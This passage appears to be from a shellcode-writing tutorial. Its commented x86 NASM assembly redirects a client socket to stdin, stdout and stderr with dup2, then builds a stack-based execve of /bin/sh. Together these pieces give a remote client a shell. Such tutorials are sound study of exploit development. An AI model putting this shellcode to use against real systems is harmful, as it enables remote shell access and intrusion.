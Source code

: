 The arguments required by the `dup2` syscall can then be identified. As seen below, the two arguments that are required are `oldfd` and `newfd`.

```
SYNOPSIS
       #include <unistd.h>

       int dup(int oldfd);
       int dup2(int oldfd, int newfd);
```

The `oldfd` argument will contain the client socket file descriptor, which is currently in the `EDX` register.

The `newfd` argument will contain the value for STDIN(0), STDOUT(1) and STDERR(2). The way this is achieved is through a loop that takes advantage of the signed flag. Once the value in `ECX` has been exhausted, the signed flag will be set, thus permitting the exit of the loop.

```nasm
;dup2
mov ebx, edx ;move the client socket file descriptor into EBX to satisfy the oldf2 argument for dup2
xor ecx, ecx  ;clear out ecx
mov cl, 0x2 ;set 2 as the counter for the dup2 loop. The significance of 2 is for STDIN(0), STDOUT(1) and STDERR(2)

redirection_loop:
  mov al, 0x3f ;dup2 syscall
  int 0x80 ;execute dup2 syscall
  dec ecx ;decrement the loop counter
  jns redirection_loop ;conditional jump to the redirection_loop as long as the signed flag (SF) is not set.
```

### Execve
Considering that all input, output and error message have been redirected to the client, the last section to complete is the execution of a shell.

The instructions being used are for a really simple stack-based `execve` SYSCALL that executes `/bin/sh`.

The nasm source is located <a href="https://github.com/skahwah/slae/blob/master/execve-stack/execve-stack.nasm">here</a> and a brief breakdown of the shellcode is located <a href="https://popped.io/execve-stack/">here<a>.

```nasm
xor eax, eax  ;zero out eax
push eax      ;push 00000000 on to the stack


push 0x68732f6e ;push hex hs/n on to the stack
push 0x69622f2f ;push hex ib// on to the stack

;at this point the stack contains //bin/sh0x00000000
mov ebx, esp  ;this satisfies the requirements for *filename (first argument of execve)

push eax      ;push 00000000 on to the stack

;at this point the stack contains 0x00000000//bin/sh0x00000000
mov edx, esp  ;we cant pop 0x00000000 into EDX as the shellcode cannot have any null characters.
              ;instead we move the current address pointed to by ESP into EDX.
              ;this address contains the last value pushed on to the stack, which is 0x00000000
              ;this satisfies the requirements for envp (third argument of execve)

push ebx      ;ebx contains the memory address of the stack where //bin/sh0x00000000 is.
mov ecx, esp  ;this satisfies the requirements for argv (second argument of execve)

```